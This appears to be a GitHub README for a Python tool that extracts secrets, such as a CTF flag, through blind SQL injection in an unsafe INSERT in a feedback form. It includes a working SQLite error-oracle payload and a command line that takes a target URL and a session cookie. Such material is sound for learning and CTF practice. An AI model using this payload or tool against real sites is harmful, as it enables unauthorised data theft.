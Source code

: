 # Blind-SQLi-extractor
A small Python tool to exploit blind SQL injection in a feedback-style form that stores user input via an unsafe INSERT. It recovers a secret (e.g., a flag) one character at a time by using the page’s response as an oracle (success vs. error).\

# How it works

 - The target app builds something like:
 - INSERT INTO feedback(username, feedback) VALUES(?, '<USER_INPUT>')
 - We submit payloads that succeed only when our character guess is correct, and fail otherwise, e.g. (SQLite example):
 - '||(SELECT CASE
           WHEN substr(secret,POS,1)='C' THEN ''
           ELSE (SELECT 1/0) END
         FROM secret_table)||'
 - The script loops over positions (POS = 1..N) and a character set until it reconstructs the value.
# Requirements
 -  Python 3.8+
 -  pip install requests pwntools (pwntools is only for nice progress UI)

# Quick Start
python3 pwntools_feedback_extractor.py \
  --url https://TARGET/ \
  --cookie '<session_cookie_value>' \
  --insecure          # if the site uses a self-signed cert
  
# What to edit (config)
 - SUCCESS_MARKER:\
   The substring that reliably appears only on a successful insert.

